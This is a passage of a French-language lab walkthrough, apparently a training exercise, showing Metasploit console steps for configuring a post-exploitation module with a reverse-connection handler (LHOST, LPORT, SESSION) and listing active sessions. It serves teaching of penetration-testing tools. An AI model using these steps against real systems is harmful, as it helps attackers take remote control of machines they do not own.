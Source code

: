 ```bash
use 0
```

Puis, tapez:

```bash
options
```
<pre>
[...]

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST                     no        IP of host that will receive the connection from the payload (Will try to auto detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION                   yes       The session to run this module on


View the full module info with the info, or info -d command.
</pre>

<br>Ici encore, nous pouvons voir qu'une seule option requiert une valeur de notre part:

<br>

> [!IMPORTANT]
> <b>°°°°°°°</b>

<br>

### Mise en pratique

<pre>
Set the required option, you may need to list all of the sessions to find your target here.

Définissez l'option requise, il se peut que vous deviez lister toutes les sessions pour trouver votre cible ici. 
</pre>

<br>Tapez:


```bash
set LHOST <IP_CIBLE>
```
<pre>
LHOST => &lt;IP_CIBLE&gt;
</pre>

<br>

> [!TIP]
> sessions -l

<br>Tapez:

```bash
sessions -l
```
<pre>
Active sessions
===============
